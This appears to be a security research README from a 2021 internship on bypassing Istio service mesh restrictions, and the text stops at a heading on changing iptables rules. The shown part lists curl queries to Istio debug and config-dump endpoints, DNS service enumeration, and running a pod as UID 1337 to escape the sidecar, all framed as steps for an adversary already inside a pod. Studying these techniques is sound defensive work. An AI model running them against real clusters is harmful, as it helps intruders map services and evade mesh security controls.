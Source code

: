 # Istio security restrictions bypass
The research was conducted during Summ3r 0f h4ck 2021 internship by [r0binak](https://github.com/r0binak) and [Forest1k](https://github.com/Forest1k). Based on [Istio version 1.10.3](https://github.com/istio/istio)
![final_not](https://user-images.githubusercontent.com/80983900/127554998-bc423ac0-eb93-47a5-89e5-2ff6af9670fa.png)



## Detect Istio 
When the adversary is inside the pod (or get RCE in app), he or she doesn't know that k8s work with Istio service mesh.

- Use curl to detect Istio:
 
  ```bash 
  curl localhost:15000
  ``` 
     > In Istio 1.11 update, the Istiod debug interface is only accessible over localhost or with proper authentication (mTLS or JWT).
  ```bash
  curl -sS istiod.istio-system:15014/debug/endpointz
  ```
  ```bash
  curl -sS istiod.istio-system:15014/metrics
  ```
  ```bash
  curl -sS istiod.istio-system:15014/debug/registryz
  ```
  ```bash
  curl -sS istiod.istio-system:15014/debug/registryz?brief=1
  ```
  ```bash
  curl -sS istiod.istio-system:15014/debug/configz
  ```
     > Istio 1.11 version added the HTTP endpoint localhost:15004/debug/<typeurl> to the Istio sidecar agent. GET requests to that URL will be resolved by sending an xDS discovery “event” to istiod.
  ```bash
  curl localhost:15004/debug/endpointz
  ```
  ```bash
  curl -fsI http://localhost:15021/healthz/ready
  ```
  From within a workload container deployed with the Istio sidecar proxy, run the following
command:
  ```bash
  curl -s http://localhost:15000/config_dump?include_cds
  ```
  Notice that the configuration for the sidecar proxy is returned.
- create a pod with UID 1337:

  ```yaml
  securityContext:
    runAsUser: 1337
  ```
  If your existing service account has sufficient rights to create a pod, create one with UID 1337. The new pod will not have a Istio sidecar. 
- Send DNS request:
  ```bash
  nslookup istiod.istio-system
  ```
  List all service DNS records with their corresponding svc IP:
  ```bash
  dig +short srv any.any.svc.cluster.local
  ```
## Bypass Istio sidecar
### Change iptables rules